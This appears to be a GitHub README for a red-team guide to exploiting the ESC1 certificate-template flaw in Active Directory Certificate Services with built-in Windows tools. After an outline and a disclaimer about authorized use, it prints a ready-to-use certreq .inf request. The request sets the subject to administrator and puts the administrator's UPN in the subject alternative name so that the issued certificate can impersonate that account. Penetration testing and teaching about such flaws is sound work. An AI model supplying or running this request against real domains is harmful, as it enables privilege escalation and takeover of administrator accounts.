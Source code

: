 # ESC1_Build_In_Script

This script is designed to assist penetration testers and Red Teamers in conducting security assessments.

When operating in "live infrastructure," leveraging automation tools signed by native security and control mechanisms within Active Directory environments can introduce challenges, as these tools are tightly integrated with domain infrastructure.

In this guide, I will demonstrate how to exploit the ESC1 vulnerability in an Active Directory environment with Active Directory Certificate Services (ADCS). This will be achieved without relying on third-party tools, using only built-in Windows utilities.

The process includes:

Identifying a vulnerable certificate template configured with misconfigurations that allow unauthorized certificate enrollment.
Requesting a certificate on behalf of any user in the domain by exploiting the identified vulnerable template.
Utilizing the certificate for impersonation to escalate privileges or access restricted resources.
This demonstration highlights the importance of proper certificate template hardening and serves as a practical guide to understanding the risks associated with improperly secured ADCS implementations.

This guide is intended for authorized security assessments only. Unauthorized use or actions without proper consent may violate laws and regulations. Always ensure you have explicit permission before conducting such activities.

Enjoy learning and, most importantly, stay safe!

 # Follow the instructions:

 Creat a 'inf' file:
 ```
powershell

[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=administrator, OU=Users, DC=bev, DC=beer"
KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
ProviderName = "Microsoft Enhanced Cryptographic Provider v1.0"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.2  ; Client Authentication

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "dns=bev.beer&upn=administrator@bev.beer"
```
